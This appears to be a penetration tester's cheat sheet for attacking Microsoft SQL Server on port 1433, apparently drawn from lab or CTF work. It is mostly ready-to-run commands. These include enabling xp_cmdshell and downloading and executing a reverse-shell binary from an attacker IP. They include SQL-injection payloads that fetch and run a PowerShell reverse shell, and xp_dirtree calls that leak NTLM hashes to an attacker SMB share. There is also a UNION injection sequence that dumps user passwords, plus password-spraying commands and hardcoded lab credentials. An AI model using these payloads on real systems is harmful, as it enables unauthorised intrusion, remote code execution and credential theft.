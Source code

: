 # MSSQL Port 1433

##### Enumeration

````
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
````

##### Impacket

````
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
````

##### Invoke-RunAs

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.

##### Crackmapexec

````
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148 -q 'SELECT name FROM master.dbo.sysdatabases;'
````

##### NetExec

Do not trust nxc's mssql  thing. try it manually, "impacket-mssqlclient administrator:hghgib6vHT3bVWf@10.10.112.154 -windows-auth"

````
nxc mssql $ip -u users.txt -p passwords.txt --continue-on-success
nxc mssql $ip -u users.txt -H $HASH --continue-on-success
````

##### Logging in

````
sqsh -S $ip -U sa -P CrimsonQuiltScalp193 #linux
proxychains sqsh -S 10.10.126.148 -U example.com\\sql_service -P password123 -D msdb #windows
````

##### Expliotation

```bash
xp_cmdshell whoami
enable_xp_cmdshell

# set up smb share locally to grab hash
xp_dirtree \\10.10.14.8\fake\share
```

````
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://10.10.126.147:7781/rshell.exe -OutFile c:\Users\Public\reverse.exe"'
go
xp_cmdshell 'c:\Users\Public\reverse.exe"'
go
````

Revshell Command that worked:

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+
```

#### Possible Queries

Test for xp_cmdshell first. A great guide is pentestmonkey's mssql cheatsheet.

Test for stacked queries, which is unique to MSSQL. Open up share on machine, or nc on 445.

```bash
q=500'; exec xp_dirtree '\\10.10.14.8\share\file';-- - # Used 500' bc union returned on this
```

Test for xp_cmdshell.

```bash
q=500'; exec xp_cmdshell 'ping 10.10.14.8';-- - # Run sudo tcpdump -i tun0 icmp
q=500'; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; exec xp_cmdshell 'ping 10.10.14.8';-- -
q=500' UNION SELECT 1,2,3,4,5,6; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
q=500' UNION SELECT 1,2,3,4,5,6; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
```

For this, test for SQLi by doing something like '500%-- -' and checking response. Pick a field in response that only is returned for a valid search, and see when it's not returned.

```bash
select * from movies where name like '%500%';
q=500%'-- -
q=%500'-- -
q=500%' union select 1,2,3-- - # Until that field is returned
q=500' union select 1,2,3,4,5,6-- - # Same, RETURNED
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,@@version,9001,4,5,6-- -
q=500' union select 1,user,9001,4,5,6-- -
q=500' union select 1,db_name(0),9001,4,5,6-- - # Run through integers to enum dbs
q=500' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='u'-- - # db is streamio
q=500' union select 1,CONCAT(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- - # Putting on a single row
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # 901.. is the users table that was returned from id
q=500' union select 1,string_agg(name,'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # Don't need the id anymore, the last two have returned the columns, such as password, username, but not the data itself
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users-- -
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from streamio..users-- -
```

```bash
select * from movies where CONTAINS (name, '*500*');
```

#### Enumeration

```bash
SELECT name FROM sys.databases;
```
##### Notes

If you're chiseling to look at mssql through the website on your localhost, go to phpmyadmin directory on the website

#### On Windows

If it has MSSQL installed. If not, you could always use Chisel.

```bash
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q "USE STREAMIO_BACKUP; select username,password from users;"
```

```bash
sqlcmd -?
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "use ADSync; select * from ADSync..sysobjects"
sqlcmd -Q "use ADSync; exec xp_dirtree '\\10.10.14.8\share\file'"
sqlcmd -Q "use ADSync; select name from PK_mms_management_agent"
```

```bash
. .\PowerUpSQL.ps1
Invoke-SQLAudit -Verbose
```

If AD Azure, check out "https://blog.xpnsec.com/azuread-connect-for-redteam/".